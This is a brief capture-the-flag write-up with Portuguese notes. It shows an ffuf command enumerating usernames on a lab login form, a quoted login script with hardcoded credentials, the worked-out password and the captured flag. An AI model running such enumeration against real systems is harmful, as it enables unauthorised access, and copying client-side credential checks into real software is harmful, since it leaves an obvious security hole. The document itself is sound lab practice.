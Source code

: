 ```shell-session
ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "uname=FUZZ&pass=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.75.43/login.html -mr "Incorrect Password, try again.. you got this hacker !"
```

Burpsuit 

autualizar a pagina de login e aparece esta funcao no intercpt request
```

 <script>
    function authenticate() {
      a = document.getElementById('uname')
      b = document.getElementById('pass')
      const RevereString = str => [...str].reverse().join('');
      if (a.value=="h3ck3rBoi" & b.value==RevereString("54321@terceSrepuS")) { 
        var xhttp = new XMLHttpRequest();
        xhttp.onreadystatechange = function() {
          if (this.readyState == 4 && this.status == 200) {
            document.getElementById("flag").innerHTML = this.responseText ;
            document.getElementById("todel").innerHTML = "";
            document.getElementById("rm").remove() ;
          }
        };
        xhttp.open("GET", "RandomLo0o0o0o0o0o0o0o0o0o0gpath12345_Flag_"+a.value+"_"+b.value+".txt", true);
        xhttp.send();
      }
      else {
        alert("Incorrect Password, try again.. you got this hacker !")
      }
    }
  </script>
```

h3ck3rBoi
ioBr3kc3h

54321@terceSrepuS

SuperSecret@12345

#### flag{edb0be532c540b1a150c3a7e85d2466e}